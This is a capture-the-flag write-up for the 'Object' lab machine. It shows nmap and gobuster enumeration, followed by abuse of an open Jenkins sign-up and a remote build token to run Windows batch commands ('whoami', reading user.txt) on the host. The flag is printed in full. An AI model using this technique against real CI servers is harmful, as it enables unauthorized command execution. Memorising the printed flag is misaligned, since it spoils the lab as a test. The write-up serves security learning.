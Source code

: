 # Object Writeup - User

> Team: UMDCSEC <br />
> Author: artemis19
--------------------

## Enumeration

First, I ran an "all ports" scan on the host and then service enumeration with some default scripts on the ports listed as open.

```bash
nmap -Pn -p- -oN allports.txt 10.129.230.200
Nmap scan report for 10.129.230.200
Host is up (0.022s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5985/tcp open  wsman
8080/tcp open  http-proxy
```

```bash
nmap -Pn -sC -sV -p80,5985,8080 -oN services.txt 10.129.230.200
Nmap scan report for 10.129.230.200
Host is up (0.029s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Mega Engines
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp open  http    Jetty 9.4.43.v20210629
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.43.v20210629)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The initial site at http://10.129.230.200/ didn't seem to have much but makes a reference to its automaion server at http://object.htb:8080/. This didn't load initially, so I had it to my `/etc/hosts` file before I could load the site.

When I reloaded the I was redirected to http://object.htb:8080/login?from=%2F, which was a login to a Jenkins server.

I did some initial directory discovery to see what else might be on the web server.

```bash
gobuster dir -u http://object.htb:8080/ -w /opt/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -x txt,php,sh -b 403

/login                (Status: 200) [Size: 2120]
/signup               (Status: 200) [Size: 7937]
/assets               (Status: 302) [Size: 0] [--> http://object.htb:8080/assets/]
/logout               (Status: 302) [Size: 0] [--> http://object.htb:8080/]       
/robots.txt           (Status: 200) [Size: 71]                                    
/error                (Status: 400) [Size: 8340]                                  
/git                  (Status: 302) [Size: 0] [--> http://object.htb:8080/git/]   
/oops                 (Status: 200) [Size: 6552]
```

I navigated to http://object.htb:8080/robots.txt since that was one with a 200 HTTP response code, and it said:

```
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```

## Jenkins Server - User.txt

This made me think that I could potentially build & run things on the Jenkins server... so I went to http://object.htb:8080/signup and registered an account. I then created a new "Freestyle project" called `test`.

I set the following Build configurations:
```
Build Triggers: "Trigger builds remotely (e.g., from scripts)" with the token set as "test"

Build: "Execute Windows batch command"
```

I chose `Windows batch command` because the initial scans indicated that the host was a Windows OS, and I saw the Jenkins server had a "built-in node" labeled as `Windows Server 2019 (amd64)` architecture.

I could then navigate to http://object.htb:8080/job/test/build?token=test to activate a build. I realized this would allow me to run any command on the Windows host, so I went back to my build setting and put `whoami` in the "Execute Windows batch command" box. I could then navigate to the individual builds and look at the "Console Output."

```
Started by remote host 10.10.14.104
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test
[test] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins17637621465730238042.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>whoami
object\oliver

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>exit 0 
Finished: SUCCESS
```

I saw that I was the `oliver` user which made me think I could just try to read the `user` flag out through a build. I then back to my Build Step and replaced `whoami` with the following batch command:

```
type C:\Users\oliver\Desktop\user.txt
```

I again navigated to http://object.htb:8080/job/test/build?token=test to initiate the build and then went to the "Console Output" of that build.

```
Started by remote host 10.10.14.104
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test
[test] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins12053970599419404230.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\oliver\Desktop\user.txt 
HTB{c1_cd_c00k3d_up_1337!}

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>exit 0 
Finished: SUCCESS
```

`user.txt: HTB{c1_cd_c00k3d_up_1337!}`

Success!
